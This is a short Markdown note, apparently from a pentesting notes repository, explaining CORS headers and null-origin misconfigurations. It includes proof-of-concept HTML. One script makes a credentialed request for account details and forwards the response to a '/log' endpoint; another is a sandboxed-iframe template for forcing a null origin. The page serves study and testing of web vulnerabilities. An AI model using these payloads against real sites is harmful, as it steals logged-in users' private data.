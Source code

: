 # Cross-Origin Resource Sharing
A browser mechanishm that enables controlled access to resources located outside of a domain. 

When it is badly implemented, it might cause vulnerabilities. 

There are some policies that manage what resources are allowed. These are the most important response headers that can enable special policies:
- [Access-Control-Allow-Origin](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin): * | \<origin> | null. This checks the [Origin](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Origin) request header
- [Access-Control-Allow-Credentials](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Credentials): true
- [Cross-Origin-Resource-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Resource-Policy): same-site | same-origin | cross-origin

Browsers send the `Origin` header in situations. Sometimes it sends `Origin: null` in these situations:
- Cross-Origin redirects
- Requests from serialized data
- Request using the `file:` protocol
- Sandboxed cross-origin requests [PoC](#sandboxed-iframe)
If implemented incorrectly, this might allow the null origin to be trusted, thus making it vulnerable.

### XSS
If server trusts another server, but the second server is vulnerable to [xss](./xss.md), an attacker can inject a cors payload through xss. This allows them to retrieve sensitive data.

## Proof of Concepts

### Basic | CORS
```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://vulnerable-website.com/accountDetails',true);
    req.withCredentials = true;
    req.send();

    /* Send a requests to /log, to let the attacker read the response */
    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

### Sandboxed iFrame
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    /* javascript here */
</script>"></iframe>
```